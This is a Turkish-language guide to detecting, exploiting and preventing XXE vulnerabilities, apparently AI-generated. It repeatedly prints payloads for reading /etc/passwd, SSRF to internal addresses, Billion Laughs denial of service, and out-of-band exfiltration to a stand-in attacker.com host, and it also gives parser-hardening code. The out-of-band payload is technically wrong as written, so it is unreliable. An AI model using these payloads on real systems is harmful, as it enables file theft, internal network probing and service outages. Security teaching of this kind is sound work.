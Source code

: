 ### **XXE (XML External Entity) Zafiyeti: Tespit ve İstismar Rehberi**

XXE (XML External Entity) zafiyeti, bir uygulamanın XML işleme sırasında harici varlıkların (external entity) tanımlanmasına ve işlenmesine izin vermesi durumunda oluşur. Bu zafiyet, hassas dosyaların okunması, iç ağda keşif yapılması ve hatta sistemde komut çalıştırma gibi ciddi sonuçlara yol açabilir.

---

### **1. XXE Zafiyeti Nedir?**
- **Tanım**: XXE, XML verilerinde harici varlıkların tanımlanıp kullanılmasını sağlayarak, hedef sistemde beklenmeyen işlemlere yol açar.
- **Tehlikeleri**:
  - Dosya Okuma: Sistem üzerindeki dosyaları okuma (`/etc/passwd`).
  - SSRF: Hedef sistemi iç ağdaki kaynaklara istek göndermeye zorlamak.
  - Denial of Service (DoS): Billion Laughs Attack gibi yöntemlerle sistemin çökmesine neden olmak.
  - Uzaktan Kod Çalıştırma: Komut çalıştırma veya başka sistemlere erişim.

---

### **2. XXE'nin Tespiti**

#### **2.1. XML Giriş Noktalarını Belirleme**
XXE zafiyeti genellikle aşağıdaki giriş noktalarında bulunur:
- **XML Dosya Yükleme**: Kullanıcıdan XML dosyasının yüklenmesini isteyen özellikler.
- **SOAP API İstekleri**: XML formatında veri alan servisler.
- **REST API'ler**: XML tabanlı POST/PUT istekleri.
- **SAML Tabanlı Uygulamalar**: SAML ile kimlik doğrulama yapan sistemler.

#### **2.2. Fuzzing ve Test Payloadları**
Tespit için basit bir XML dosyası kullanılabilir:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

Bu payload, `/etc/passwd` dosyasını okumaya çalışır. Sunucunun yanıtı, zafiyetin varlığını gösterebilir.

#### **2.3. Araçlar**
- **Burp Suite**: XML tabanlı isteklerde payloadları düzenlemek için idealdir.
- **OWASP ZAP**: Otomatik zafiyet taraması ve manuel testler için kullanılabilir.
- **XXE-Injector**: Otomatik olarak XXE payloadlarını test eder.
- **SOAPUI**: SOAP servislerinde XXE testi yapmak için kullanılır.

---

### **3. XXE İstismar Teknikleri**

#### **3.1. Dosya Okuma**
Sistem üzerindeki hassas dosyaları okuyabilirsiniz:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

- **Amaçlanan Dosyalar**:
  - Linux: `/etc/passwd`, `/etc/shadow`
  - Windows: `C:\Windows\System32\drivers\etc\hosts`

#### **3.2. SSRF (Server-Side Request Forgery)**
XXE üzerinden iç ağdaki kaynaklara erişim sağlanabilir:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.1:80/"> ]>
<foo>&xxe;</foo>
```

#### **3.3. Denial of Service (Billion Laughs Attack)**
Sunucunun kaynaklarını tüketmek için kullanılabilir:
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<foo>&lol3;</foo>
```

#### **3.4. Uzaktan Kod Çalıştırma (RCE)**
Bazı durumlarda, bir XXE saldırısı ile kod yürütme sağlanabilir:
- Kullanılabilir protokoller: `php://filter`, `gopher://`, `expect://`.

#### **3.5. Out-of-Band (OOB) XXE**
Eğer sistem yanıtında veri döndürmüyorsa, OOB saldırılarıyla hassas bilgileri başka bir sunucuya yönlendirebilirsiniz:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

---

### **4. Korunma Yöntemleri**
#### **4.1. XML İşleme Özelliklerini Devre Dışı Bırakma**
XXE'yi önlemek için aşağıdaki özellikler devre dışı bırakılmalıdır:
- Java'da:
  ```java
  SAXParserFactory factory = SAXParserFactory.newInstance();
  factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  ```

- .NET'te:
  ```csharp
  XmlReaderSettings settings = new XmlReaderSettings();
  settings.DtdProcessing = DtdProcessing.Prohibit;
  ```

#### **4.2. Girdi Doğrulama**
- Kullanıcı girdilerini beyaz listeye alın.
- Doğrudan XML verisi işlemek yerine, daha güvenli alternatifler (JSON) kullanın.

#### **4.3. Ağ Seviyesi Güvenlik**
- Sunucunun dış ağdan erişimini kısıtlayın.
- Yerel dosya sistemi protokollerine erişimi engelleyin (`file://`).

---

### **5. Araçlar ve Teknikler**
| Araç           | Açıklama                                          |
|----------------|---------------------------------------------------|
| Burp Suite     | XXE payloadlarını düzenlemek ve test etmek.       |
| OWASP ZAP      | Otomatik zafiyet taraması ve manuel testler.      |
| XXE-Injector   | XXE payloadlarını otomatik olarak test eder.      |
| SOAPUI         | SOAP tabanlı servislerde XXE testi için kullanılır. |
| Nuclei         | XXE için önceden tanımlanmış tarama şablonları.   |

---

### **6. XXE Payload Örnekleri**

#### **Basit Dosya Okuma**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

#### **SSRF Payload**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://192.168.1.1:80/"> ]>
<foo>&xxe;</foo>
```

#### **Out-of-Band (OOB) XXE**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

#### **Billion Laughs Attack**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;">
]>
<foo>&lol3;</foo>
```

---

Bu rehber, XXE tespiti ve istismarı için kapsamlı bir bilgi sağlamaktadır. Daha fazla pratik yapmak için belirli araçları ve yöntemleri test ortamlarında denemeniz önerilir. Detaylı örnekler ve araçlarla ilgili yardım isterseniz size özel bir senaryo geliştirebiliriz.
